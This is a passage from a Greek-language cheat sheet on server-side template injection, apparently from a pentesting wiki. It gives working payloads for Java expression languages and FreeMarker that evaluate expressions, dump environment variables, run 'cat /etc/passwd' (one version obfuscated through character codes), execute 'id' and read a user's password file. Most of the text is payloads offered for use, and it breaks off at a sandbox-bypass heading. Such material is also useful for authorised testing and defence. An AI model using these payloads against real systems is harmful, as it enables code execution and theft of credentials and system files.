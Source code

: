 * [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)
* [https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt)

### Java

**Java - Βασική ένεση**
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```
**Java - Ανάκτηση των μεταβλητών περιβάλλοντος του συστήματος**
```java
${T(java.lang.System).getenv()}
```
**Java - Ανάκτηση /etc/passwd**
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
### FreeMarker (Java)

Μπορείτε να δοκιμάσετε τα payload σας στο [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legacy)`
* `${7*'7'} Τίποτα`
* `${foobar}`
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
**Freemarker - Παράκαμψη Sandbox**
